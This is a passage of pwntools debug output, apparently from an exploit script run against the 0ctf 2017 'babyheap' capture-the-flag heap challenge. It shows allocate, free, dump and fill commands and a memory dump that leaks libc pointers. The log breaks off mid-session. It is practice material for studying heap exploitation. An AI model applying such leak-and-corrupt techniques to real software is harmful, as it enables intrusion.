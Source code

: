 ``` Python LOG
    b'3. Free\n'
    b'4. Dump\n'
    b'5. Exit\n'
    b'Command: '
[DEBUG] Sent 0x2 bytes:
    b'3\n'
[DEBUG] Sent 0x2 bytes:
    b'2\n'
[DEBUG] Received 0x3c bytes:
    b'Index: 1. Allocate\n'
    b'2. Fill\n'
    b'3. Free\n'
    b'4. Dump\n'
    b'5. Exit\n'
    b'Command: '
/home/user/PycharmProjects/0ctf2017_babyheap/./main.py:22: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendline("4")
[DEBUG] Sent 0x2 bytes:
    b'4\n'
/home/user/PycharmProjects/0ctf2017_babyheap/./main.py:23: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendline(str(index))
[DEBUG] Sent 0x2 bytes:
    b'1\n'
[DEBUG] Received 0x21f bytes:
    00000000  49 6e 64 65  78 3a 20 43  6f 6e 74 65  6e 74 3a 20  │Inde│x: C│onte│nt: │
    00000010  0a 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    00000020  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    000000a0  00 00 00 00  00 00 00 00  00 41 01 00  00 00 00 00  │····│····│·A··│····│
    000000b0  00 78 4b 1c  37 b4 7f 00  00 78 4b 1c  37 b4 7f 00  │·xK·│7···│·xK·│7···│
    000000c0  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    000001e0  00 40 01 00  00 00 00 00  00 0a 31 2e  20 41 6c 6c  │·@··│····│··1.│ All│
    000001f0  6f 63 61 74  65 0a 32 2e  20 46 69 6c  6c 0a 33 2e  │ocat│e·2.│ Fil│l·3.│
    00000200  20 46 72 65  65 0a 34 2e  20 44 75 6d  70 0a 35 2e  │ Fre│e·4.│ Dum│p·5.│
    00000210  20 45 78 69  74 0a 43 6f  6d 6d 61 6e  64 3a 20     │ Exi│t·Co│mman│d: │
    0000021f
/home/user/PycharmProjects/0ctf2017_babyheap/./main.py:26: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.recvuntil("Command:")
[DEBUG] Sent 0x2 bytes:
    b'3\n'
[DEBUG] Sent 0x2 bytes:
    b'5\n'
[DEBUG] Received 0x3c bytes:
    b'Index: 1. Allocate\n'
    b'2. Fill\n'
    b'3. Free\n'
    b'4. Dump\n'
    b'5. Exit\n'
    b'Command: '
[DEBUG] Sent 0x2 bytes:
    b'2\n'
[DEBUG] Sent 0x2 bytes:
    b'4\n'
[DEBUG] Sent 0x3 bytes:
    b'40\n'
[DEBUG] Received 0x4b bytes:
    b'Index: Size: Content: 1. Allocate\n'
    b'2. Fill\n'
    b'3. Free\n'
```